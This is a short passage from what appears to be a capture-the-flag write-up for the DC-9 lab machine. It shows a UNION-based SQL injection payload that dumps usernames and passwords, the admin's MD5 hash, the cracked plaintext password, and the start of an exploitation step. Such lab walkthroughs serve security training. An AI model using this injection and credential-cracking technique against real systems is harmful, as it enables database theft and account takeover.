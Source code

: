 ```sql
Mary' union select null,CONCAT(username,':',password),null,null,null,null from Users-- -
```

![Untitled](DC-9%205a1a383f004f41a7b065312771f311ab/Untitled%208.png)

We obtain admin user and an md5 hash. With the hash I proceed to crack it on an online website

[https://crackstation.net/](https://crackstation.net/)

```bash
admin:856f5de590ef37314e7c3bdf6f8a66dc
```

![Untitled](DC-9%205a1a383f004f41a7b065312771f311ab/Untitled%209.png)

And I get the password: **transorbital1**

## Explotation

Login

![Untitled](DC-9%205a1a383f004f41a7b065312771f311ab/Untitled%2010.png)
